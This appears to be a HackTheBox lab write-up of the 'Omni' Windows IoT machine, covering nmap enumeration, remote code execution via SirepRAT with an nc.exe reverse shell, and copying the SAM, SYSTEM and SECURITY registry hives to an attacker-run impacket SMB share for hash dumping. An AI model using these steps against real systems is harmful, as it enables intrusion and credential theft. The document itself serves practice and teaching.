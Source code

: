 ```yaml
---
layout: post
title: Omni - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-07
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Omni is a Windows box but with the fun twist of being a small IoT device.

## Enumeration

### Nmap

Performing an Nmap scan reveals the following ports open on the remote host.

```shell
# Nmap 7.92 scan initiated Sat Feb  5 09:05:31 2022 as: nmap -sC -sV -p- -o allnmap -v -Pn 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.058s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.92%I=7%D=2/5%Time=61FE849C%P=aarch64-unknown-linux-gn
SF:u%r(NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines
SF:,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xf
SF:b`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\
SF:x1c\xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  5 09:08:31 2022 -- 1 IP address (1 host up) scanned in 180.72 seconds
```

Going to the site at 10.10.10.104:8080 gives us a login site for a site called "Windows Device Portal". This is good information!

Googling for "Windows Device Portal Exploit" (super complicated I know) gives us a result for a tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

## Exploitation

### Remote Code Execution

Using SirepRAT, we can execute code on the remote machine and receive a remote shell on the target machine!

To begin, we are going to do the tried and trusted http server hosting through Python and upload nc.exe to the victim host.

```shell
sudo python3 -m http.server 80
```

![NCexe](https://mitchelldstein.github.io/assets/images/Omni/UploadNC.png)

Once nc.exe is uploaded to the host we can execute and receive a reverse shell on the victim!

![RCE](https://mitchelldstein.github.io/assets/images/Omni/SirepRAT1.png)

![Shell](https://mitchelldstein.github.io/assets/images/Omni/Shell1.png)

## User Enumeration

We all know the reason we are here, we want flags. Looking through the file system we can find the user directory and perusing through that gives the user flag.

![User Flag](https://mitchelldstein.github.io/assets/images/Omni/FlagUser.png)

This isn't the flag we are expecting.. What is this? Doing some research it seems we will need the user password to decrypt the "Password" field.

Looking into how to to get hashes from a local Windows machine I found the registry and system memory hold these passwords. We are going to skip system memory and use the SAM entry to find the hashes we desire.

Impacket-Secretsdump has a very useful `-SAM` option to parse through SAM hive entries. Perfect!

### Gathering Password Hashes

Impacket requires the SAM, security, and system registry entries for this exploit to work.

To get these to our local machine we can load up the Impacket-SmbServer and connect on the victim computer.

On the Kali machine:

```shell
$ impacket-smbserver share . -smb2support -username yo -password yo
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the Windows IoT machine:

```cmd
net use \\10.10.14.19\share /u:yo yo
```

![System reg](https://mitchelldstein.github.io/assets/images/Omni/System.png)
![SAM reg](https://mitchelldstein.github.io/assets/images/Omni/Sam.png)
![Security reg](https://mitchelldstein.github.io/assets/images/Omni/Security.png)
